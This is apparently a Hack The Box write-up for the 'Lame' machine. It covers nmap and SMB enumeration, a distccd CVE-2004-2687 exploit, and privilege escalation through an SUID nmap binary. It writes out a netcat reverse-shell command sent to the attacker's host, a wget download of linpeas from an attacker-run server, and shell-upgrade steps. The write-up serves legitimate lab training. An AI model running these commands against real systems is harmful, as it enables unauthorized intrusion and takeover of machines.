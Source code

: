 # Lame - 10.10.10.3

Started off with a nmap scan
```
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3
```
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.\
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.\
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run
```
smbmap -H 10.10.10. 
```
and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is READ, WRITE. Lets login and see what we can find.\
I use ``smbclient \\\\10.10.10.3\\tmp markdown`` and we get a hit. \
I use ```markdown\  ls```  to see what we can find. Unfortunately there is nothing here either.\
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running.  <em><strong>distccd v1</em></strong>\
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855 \
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong>\
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  ``` markdown chmod +x CVE-2004-2687.py ``` \
the file is ready to be used. First I started a listener on my attacking machine with ``` markdown nc -lvnp 9001 ``` and then used the following command \
``` markdown ./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` No good, got errors. \
Then I tried. ``` markdown python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. \
Next up,  ``` markdown python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following. \
``` markdown python -c 'import pty; pty.spawn("/bin/bash")' ``` python3 and python2 didn't work. \
``` markdown export TERM=xterm ``` \
``` markdown stty raw -echo && fg ``` \
``` markdown enter ``` \
``` markdown enter ``` \

We're a normal user daemon. I started off with ``` markdown sudo -l ``` but it asked for a password. Let's move on.
I look around a bit and ``` markdown cd /home ``` directory and do a ``` markdown ls ``` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I do a cat user.txt at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh \
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine. \
I use python3 -m http.server 80 get the server up and running. \
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox. \
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file. \
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

the /usr/bin/nmap suid \
I head over to https://gtfobins.github.io/ and search for nmap \
I cd /usr/bin where the suid is located. \
I start off with shell code (a) and nothing happened. So I keep going down the list. \
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now cd /root and see what is there which is the root.txt flag! \
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
